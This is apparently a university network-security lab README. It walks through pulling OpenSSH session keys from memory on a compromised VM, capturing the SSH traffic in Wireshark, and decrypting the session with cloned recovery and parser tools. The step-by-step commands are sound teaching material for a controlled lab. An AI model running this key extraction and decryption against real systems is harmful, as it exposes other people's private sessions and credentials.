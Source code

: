 # SSH insecurity example
## Prerequisites
1. Host-based network with attack, infrastructure, and target VMs
2. Termsvr container in target VM

## Overview
You will setup a passive listener on an SSH session between two hosts.  In this example, these are our Attack VM (a compromised host where an attacker has local access) and the Target VM.  You will setup the connection between the two but imagine that from the attacker's perspective, that connection was happening by others and you have the local access on one side.

In addition to having local access, the attacker is able to capture the encrypted traffic going over the network.  For simplicity, you will use Wireshark running also inside the Attack VM.

```
| Attack VM (client) | <---------SSH---------> | Target VM (server) |
                                  |
                                  V
                                 Tap (Wireshark running from Attack VM)
```
Also inside the Attack VM, you will create a new development container and install utilities (details below) to be able to gather the session keys and decrypt the ssh session by using them.

## Instructions
1. Launch a new devel container on the Attack VM and setup to capture the ssh session keys (note: we are just downloading the vanilla kali image and do not need a Dockerfile to build one) from it
    ```
    $ docker run --name devel --network host -it kalilinux/kali-last-release:latest /bin/bash 
    # apt-get update
    # apt-get install python3 python3-pip python3-venv git
    # cd ~ && mkdir sandbox && cd sandbox
    # git clone https://github.com/jhu-information-security-institute/netsec-OpenSSH-Session-Key-Recovery
    # python3 -m venv sshcrack
    # source sshcrack/bin/activate
    (sshcrack) # pip install cython psutil python-ptrace
    (sshcrack) # python3 netsec-OpenSSH-Session-Key-Recovery/pip-package/openssh_session_keys/keys.py
    ```
1. Connect to the devel container from a second session to install and build OpenSSH-Network-Parser (tool that decrypts the ssh session using the keys, and its pynids dependency)
    ```
    # apt-get install python2 python2-dev virtualenv libglib2.0-0 libpcap-dev libnet1-dev libnids-dev curl
    # curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
    # python2 get-pip.py
    # pip2 install virtualenv
    # python2 -m virtualenv venv-pynids
    # source venv-pynids/bin/activate
    (pynids) # pip2 install gevent tabulate
    (pynids) # git clone https://github.com/jhu-information-security-institute/netsec-pynids
    (pynids) # cd netsec-pynids 
    (pynids) # python setup.py build
    (pynids) # python setup.py install
    (pynids) # cd ..
    (pynids) # git clone https://github.com/jhu-information-security-institute/netsec-OpenSSH-Network-Parser
    (pynids) # cd netsec-OpenSSH-Network-Parser
    (pynids) # pip2 install .
    ```
1. Startup wireshark in attack VM to capture the following ssh session (use filter tcp.port eq 2222) on the interface attached to VMNet1 (on netsec-docker.isi.jhu.edu, 192.168.25.0/24).
1. From the Attack VM, SSH into the termsvr: `# ssh -p 2222 -c aes256-gcm@openssh.com student@term.netsec-docker.isi.jhu.edu`
    * Note that we specify aes256-gcm, which is supported by the network-parser tool (some of the other modes, including the default one, aren't supported)
1. Once you see the keys appear in the first console (i.e., the one running keys.py), you can exit out of the keys.py command and also the ssh session.  For the former, you'll want the results that were output to the screen and save the pcap for the latter.
1. Copy the saved *.pcap into your devel docker container.  Then, in your second devel session, use the network-parser utility to decrypt the *.pcap by providing it and the captured keys to the following command: `(pynids) # network-parser -p <PCAPFILE> -o my/output/dir --proto=[protocol] [--popt key=value] [-s] [-vvvv]`
1. Fun and profit!

## Useful links
* https://research.nccgroup.com/2020/11/11/decrypting-openssh-sessions-for-fun-and-profit
* https://github.com/jhu-information-security-institute/netsec-OpenSSH-Session-Key-Recovery
* https://github.com/jhu-information-security-institute/netsec-OpenSSH-Network-Parser
* https://github.com/jhu-information-security-institute/netsec-pynids
